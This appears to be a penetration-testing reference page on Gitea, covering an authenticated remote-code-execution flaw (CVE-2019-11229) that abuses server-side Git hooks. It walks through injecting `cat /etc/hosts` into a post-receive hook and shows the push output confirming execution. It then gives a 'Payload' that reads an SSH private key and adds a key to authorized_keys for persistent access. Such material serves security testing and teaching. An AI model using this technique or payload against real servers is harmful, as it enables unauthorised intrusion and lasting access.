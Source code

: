 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Gitea

Gitea is a lightweight, self-hosted Git service written in Go, offering source code hosting with a web interface similar to GitHub. It supports essential Git operations like repository management, pull requests, and issue tracking, while maintaining a minimal resource footprint, making it suitable for private deployments. Commonly deployed by small teams or organizations on internal infrastructure, Gitea is often exposed via HTTP and integrates with SSH for repository access.

## Authenticated RCE

Gitea versions up to `1.7.5` are susceptible to an authenticated RCE vulnerability ([CVE-2019-11229](https://nvd.nist.gov/vuln/detail/CVE-2019-11229)) through the misuse of Git Hooks. Git Hooks are server-side scripts that execute during Git events like commits or pushes. In vulnerable versions, authenticated users with repository write access can define arbitrary content in these hooks, including shell commands. Since these scripts execute on the server during Git operations, this opens a path for executing commands in the context of the Gitea service user.

After registering a new user and creating a repository, it's possible to inject commands (e.g., `cat /etc/hosts`) into the post-receive Git Hook via the repository settings.&#x20;

<figure><img src="../../.gitbook/assets/gitea_git_hooks.png" alt=""><figcaption></figcaption></figure>

When a push operation is triggered from the attacker's local Git client, the server executes the malicious hook content. The output is returned as part of the Git response, confirming successful command execution.

```bash
$ git clone http://gitea-instance:3000/test/test.git
$ cd test
$ echo test >> test.txt
$ git add .
$ git config user.name test
$ git commit -m "test"
<SNIP>
 1 file changed, 2 insertions(+)
 $ git push
Username for 'http://gitea-instance:3000': test
Password for 'http://test@gitea-instance:3000':
<SNIP>
remote: # The following lines are desirable for IPv6 capable hosts
remote: ::1     localhost ip6-localhost ip6-loopback
remote: ff02::1 ip6-allnodes
remote: ff02::2 ip6-allrouters
<SNIP>
```

This can be used for reverse payloads or, as shown in the example below, for establishing persistent SSH access.

{% code overflow="wrap" %}
```bash
# Payload
ssh-keygen -t rsa -f ~/.ssh/id_rsa -N '' # Generate ssh key pair
cat ~/.ssh/id_rsa # Read the private key
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys # Add the public key to authorized keys
```
{% endcode %}

<figure><img src="../../.gitbook/assets/git_hooks.png" alt=""><figcaption></figcaption></figure>
